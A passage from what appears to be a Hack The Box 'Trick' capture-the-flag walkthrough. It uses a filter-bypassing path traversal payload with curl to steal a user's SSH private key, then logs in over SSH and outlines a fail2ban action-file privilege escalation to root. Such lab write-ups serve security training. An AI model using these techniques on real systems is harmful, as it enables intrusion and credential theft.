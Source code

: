 	```
	- `....//....//....//`
		- There is some sort of input sanitization, `//` & `....` two slashes and 4 dots are needed, instead of the usual `../`
4. Earlier, we found out that there is a user called `michael`, attempt to include his `id_rsa` private key
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa > id_rsa;chmod 600 id_rsa
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
	                                 Dload  Upload   Total   Spent    Left  Speed
	100  1823    0  1823    0     0  24376      0 --:--:-- --:--:-- --:--:-- 24635
	
	```
	![]({{ page.img_path }}Pasted%20image%2020220731022232.png)


## TCP/22 - SSH
1. SSH w/ michael's private key
	```
	┌──(root💀kali)-[~/htb/trick/10.10.11.166/exploit]
	└─# ssh michael@trick.htb -i id_rsa 
	Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64
	
	The programs included with the Debian GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
	
	Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
	permitted by applicable law.
	Last login: Sat Jul 30 20:19:33 2022 from 10.10.14.2
	michael@trick:~$ 
	
	```

# Privilege Escalation

## Root - Via Fail2Ban Misconfiguration
1. Ran `linpeas`, found something interesting
	![]({{ page.img_path }}Pasted%20image%2020220731052029.png)
	- We have write access to `action.d` folder because `security` group has write access
	- `michael` belongs to the `security` group
2. Ran `pspy64` to sniff processes 
	![]({{ page.img_path }}Pasted%20image%2020220731051840.png)
	- There is a cronjob running every 3 minutes that deletes configuration files from `/etc/fail2ban`
3. Google `fail2ban` privilege escalation guide
	- [Guide I followed](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
	- [What is fail2ban](https://linuxize.com/post/install-configure-fail2ban-on-debian-10/)
	- How it fail2ban is supposed to work
		- For e.g., sshd is enabled in the jail configuration file (`jail.conf, jail.d/*.conf`, if someone were to bruteforce SSH logins, the ban action will be triggered (timeout)
	- Exploiting it
		- The ban action configuration (determines what happens if ban is triggered) is located at `/etc/fail2ban/action.d/ip-tables/multiport.conf` where we have write access.
		- Replace the ban action to a reverse shell/ to create `/bin/bash`  with SUID bit set
		- Then trigger the ban to obtain our root shell
4. In this machine, there is a cronjob that replaces fail2ban configuration every 3 minutes, this means that we have to complete our exploit within 3 minutes otherwise the file (`multiport.conf`) will be replaced